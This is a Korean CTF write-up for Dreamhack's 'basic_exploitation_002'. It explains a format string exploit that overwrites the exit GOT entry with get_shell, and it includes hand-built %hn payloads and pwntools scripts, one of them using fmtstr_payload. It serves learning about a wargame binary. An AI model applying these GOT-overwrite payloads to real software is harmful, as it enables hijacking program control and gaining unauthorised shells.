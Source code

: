 * **get_shell** : int(0x8048609) = **`134,514,185`**

* **exit_ got** : **`0x804a024`**

```C
printf(p32(0x804a024) + %134514185-4c%1$n)
```

* `%134514185c` : get_shell의 주소 값 **0x8048609** 만큼의 문자열 길이

* `%n` : **%134514185-4c** 제일 앞단에 사용한 `exit_got`(4byte)를 뺀 만큼의 문자열 길이를 첫번째 참조 값에 저장

* `1$` : `printf(buf)`는 첫번째의 인자의 값을 가져오기에 `1$`로 첫번째 인자를 참조하겠다 명시

하지만, 1억 3천만개의 스페이스 문자를 입력하기에는 `alarm(30);`로 인해 TIME OUT될 가능성이 크기에 두 번으로 나눠 페이로드를 전송한다.

현재 파일은 32bit체재로 `exit_got` 또한 32bit, 총 4byte 이므로 [exit_got]와 [exit_got+2] 이렇게 나눠서 전송하면 가능하다.

```python
from pwn import *

context.log_level = 'debug'
p = process('./basic_exploitation_002')
e = ELF('./basic_exploitation_002')
#p = remote("host1.dreamhack.games", 15758)

exit = e.got['exit'] # 0x804a024

payload = p32(exit+2) + p32(exit) + b"%2044c%1$hn%32261c%2$hn"
# 0x8048609
p.send(payload)

p.interactive()
```

* `%n` : 4byte, `%hn` : 2byte, `%hhn` : 1byte 전송

* `[exit+2]` = `%2044c`

* `[exit]` = `%32261c`

* `%2044c` = 0x804 - 8 (0x7fc)
  
  * **8을 뺀 이유** : `p32(exit+2) + p32(exit)` 총 8byte 전달했기에 get_shell의 앞 2byte `0x804`를 맞추기 위해 **0x7fc**를 전송(0x7fc과 앞에 전달한 8byte를 더하면 0x804)

* `%32261c` = 앞 **8byte** + `%2044c`(**0x7fc**) + **0x7e05** = **`0x8609`** get_shell의 뒷 8byte의 값이 나오기에 이렇게 전달

```python
from pwn import *

p = process('./basic_exploitation_002')
e = ELF('./basic_exploitation_002')

exit = e.got['exit']

payload = fmtstr_payload(1, {e.got['exit'] : e.symbols['get_shell']})

p.send(payload)

p.interactive()
```

이와 같이 pwntools에서 제공하는 함수를 통한 쉬운 포맷스트링 페이로드 작성도 가능하다.